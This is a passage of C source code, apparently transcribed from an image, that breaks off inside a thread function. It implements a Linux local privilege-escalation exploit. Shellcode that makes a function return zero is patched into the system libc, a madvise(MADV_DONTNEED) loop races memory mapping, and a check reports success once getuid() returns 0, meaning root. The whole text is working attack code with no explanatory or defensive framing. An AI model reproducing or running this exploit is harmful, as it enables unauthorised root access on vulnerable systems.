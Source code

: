 #include <sys/stat.h>
#include <sys/user.h>
#include <sys/wait.h>
#include <sys/types.h>


#define SHELLCODE	"\x31\xc0\xc3"
#define SPACE_SIZE	256
#define LIBC_PATH	"/lib/x86_64-linux-gnu/libc.so.6"
#define LOOP		0x1000000

#ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif

struct mem_arg  {
	struct stat st;
	off_t offset;
	unsigned long patch_addr;
	unsigned char *patch;
	unsigned char *unpatch;
	size_t patch_size;
	bool do_patch;
	void *map;
};


static int check(bool do_patch, const char *thread_name)
{
	uid_t uid;

	uid = getuid();

	if (do_patch) {
		if (uid == 0) {
			printf("[*] patched (%s)\n", thread_name);
			return 1;
		}
	} else {
		if (uid != 0) {
			printf("[*] unpatched: uid=%d (%s)\n", uid, thread_name);
			return 1;
		}
	}

	return 0;
}


static void *madviseThread(void *arg)
{
	struct mem_arg *mem_arg;
	size_t size;
	void *addr;
	int i, c = 0;

	mem_arg = (struct mem_arg *)arg;
	addr = (void *)(mem_arg->offset & (~(PAGE_SIZE - 1)));
	size = mem_arg->offset - (unsigned long)addr;

	for(i = 0; i < LOOP; i++) {
		c += madvise(addr, size, MADV_DONTNEED);

		if (i % 0x1000 == 0 && check(mem_arg->do_patch, __func__))
			break;
	}

	if (c == 0x1337)
		printf("[*] madvise = %d\n", c);

	return NULL;